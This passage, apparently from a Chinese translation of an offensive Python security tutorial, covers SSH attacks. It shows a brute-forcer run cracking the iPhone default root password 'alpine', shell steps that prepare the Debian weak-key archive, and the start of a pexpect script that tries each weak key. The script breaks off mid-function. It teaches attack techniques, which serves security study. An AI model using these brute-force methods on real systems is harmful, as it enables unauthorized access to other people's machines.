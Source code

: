 尝试用 SSH 密码暴力破解器破解得到一下结果。这很有趣当指示发现密码为“alpine”，这是 iPhone 设备的默认根密码。2009 年末，一个 SSH 蠕虫攻击了 iPhone。通常越狱的 iPhone 设备，用户能在 iPhone 上开启 OpenSSH 服务。而这被证明是非常有效的对于一些没有察觉的用户。蠕虫 iKeee 利用这个新问题尝试用默认密码攻击设备。该蠕虫的作者无意用这个蠕虫做任何破坏，但是他们更改 iphone 的背景图片为 Rick Astley 的图片，并附上一句话 “ikee never gonna give you up”.

```
attacker# python sshBrute.py -H 10.10.1.36 -u root -F pass.txt
[-] Testing: 123456789
[-] Testing: password
[-] Testing: 1234567
[-] Testing: alpine
[-] Testing: password1
[-] Testing: soccer
[-] Testing: anthony
[-] Testing: friends
[+] Password Found: alpine
[-] Testing: butterfly
[*] Exiting: Password Found 
```

## 通过弱密钥利用 SSH

密码提供了 SSH 服务的一种验证方式，但这不是唯一一种验证方式。此外，SSH 还提过了另外一种验证方式---公钥加密。在这种情况下，服务器知道公钥，用户知道私钥。使用 RSA 或者 DSA 加密算法，服务器为登陆 SSH 的用户产生他们的密钥。通常，这提供了一个极好的验证方式。通过生成 1024 位，2048 位或者 4096 位的密钥，使我们很难用弱口令暴力破解。然而，在 2006 年 Debian Linu 的发行版发生了一些有趣的事情。一个开发者评论了一行通过代码自动分析工具找到的代码。代码的特定行保证 SSH 密钥产生的熵。通过讲解代码的特定行，密钥的搜索空间的减少到 15 位熵.不仅仅是 15 位熵，这就意味着每个算法只存在 32767 个密钥。HD Morre，CSO 和 Rapid7 的总设计师，生成了 1024 位和 2048 位的所有的密钥，在两个小时以内。此外，他使这些密钥`debian_ssh_dsa_1024_x86.tar.bz2` 可以自行下载。你可以先下载 1024 位的密钥，然后提取密钥，删除公共密钥，因为只需要私人密钥来测试连接。

```
attacker# bunzip2 debian_ssh_dsa_1024_x86.tar.bz2
attacker# tar -xf debian_ssh_dsa_1024_x86.tar
attacker# cd dsa/1024/
attacker# ls
00005b35764e0b2401a9dcbca5b6b6b5-1390
00005b35764e0b2401a9dcbca5b6b6b5-1390.pub
00058ed68259e603986db2af4eca3d59-30286
00058ed68259e603986db2af4eca3d59-30286.pub
0008b2c4246b6d4acfd0b0778b76c353-29645
0008b2c4246b6d4acfd0b0778b76c353-29645.pub
000b168ba54c7c9c6523a22d9ebcad6f-18228
<..SNIPPED..>
attacker# rm -rf dsa/1024/*.pub 
```

这个漏洞持续了两年之久才被安全人员发现。因此，有相当多的脆弱的 SSH 服务器。如果我们能构建一个工具来利用这个漏洞就好了。然而，为了访问密钥空间，可能要写一个小的 Python 脚本来暴力遍历 32767 个密钥为了验证一个无密码，依赖公共密钥的 SSH 服务器。事实上，Warcat 小组写过这样的脚本，并将它上传到了 milw0rm，就在漏洞被发现的当天。Exploit-DB 存档了 Warcat 小组的脚本，在 [`www.exploit-db.com/exploits/5720/`](http://www.exploit-db.com/exploits/5720/) 网站上。然而，我们将编写我们自己的脚本，利用用来编写密码暴力破解的的`pexcept` 模块。

弱密钥测试的脚本和我们的暴力密码认证非常相似。为了用密钥认证 SSH，我们需要输入`ssh user@host –i keyfile –o PasswordAuthentication=no`。在下面的脚本中，我们循环的设置已生成的密钥来尝试连接。如果连接成功，我们将打印密钥文件的名字在屏幕上。此外，我们将设置两个全局变量`Stop` 和`Fails`，`Fails` 将用于统计因为远程主机关闭连接而导致的连接失败的数量。如果数量超过 5，我们将终止脚本。如果我们的扫描触发了远程 IPS(入侵防御系统)阻止我们的连接，那么就没有意义继续下去。我们`Stop` 全局变量是一个布尔值，告诉我们已经发现了一个密钥，`main()`函数也没有必要再开启新的连接进程。

```
# coding=UTF-8
import pexpect
import optparse
import os
import threading
maxConnections = 5
connection_lock =
threading.BoundedSemaphore(value=maxConnections)
Stop = False
Fails = 0
def connect(user, host, keyfile, release):
    global Stop, Fails
    try:
```